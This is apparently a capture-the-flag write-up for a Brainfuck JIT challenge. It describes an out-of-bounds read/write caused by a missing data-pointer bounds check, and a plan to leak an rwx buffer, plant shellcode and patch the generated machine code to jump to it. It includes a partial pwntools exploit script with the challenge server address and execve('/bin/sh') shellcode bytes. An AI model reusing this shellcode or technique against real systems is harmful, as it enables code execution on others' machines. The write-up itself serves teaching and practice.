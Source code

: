 The `bf_data` is placed on the heap memory. It will treat `bf_data->dp` as the first parameter while executing the machine code.


The vulnerability is quite simple: it did not have the boundary check for the data pointer increment/decrement. For example, it we input 1000 `>` and a `,`, we can write a byte at `bf_data->dp + 1000`, thus we have an out-of-bound read/write vulnerability.

Here's the basic concept of how I exploit the service:
1. Leak the machine code buffer address ( an mmap address with `rwx` permission )
2. Place our shellcode on the mmap buffer
3. Self-modified the machine code in `bf_data->sc_buf` so it will jump to our shellcode buffer and execute our shellcode.  


First we use the OOB read to leak the machine code buffer address. After that, we use OOB write to overwrite `bf_data->dp`, making it point to our shellcode buffer, then use `>` and `,` to write our shellcode to `bf_data->dp`.  

Now because `bf_data->dp` is near to `bf_data->sc_buf`, so again we can use the OOB write to modify the content of `bf_data->sc_buf`, creating a **self-modified machine code** situation. I decided to modify the end of the machine code into:
```
mov rax, shellcode_buf_addr
call rax
```


```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "139.59.244.42"
PORT = 31337
ELF_PATH = "./bf1"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object

def cmd(s):
    r.sendlineafter(">>", s)

def write(move, content):
    payload = ""
    if move < 0:
        payload = "<" * abs(move)
    else:
        payload = ">" * abs(move)

    payload += ",>"*len(content)
    
    cmd(payload)
    r.sendline(content)


sc = "\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x31\xf6\x6a\x3b\x58\x99\x0f\x05"

if __name__ == "__main__":

    r = remote(HOST, PORT)
```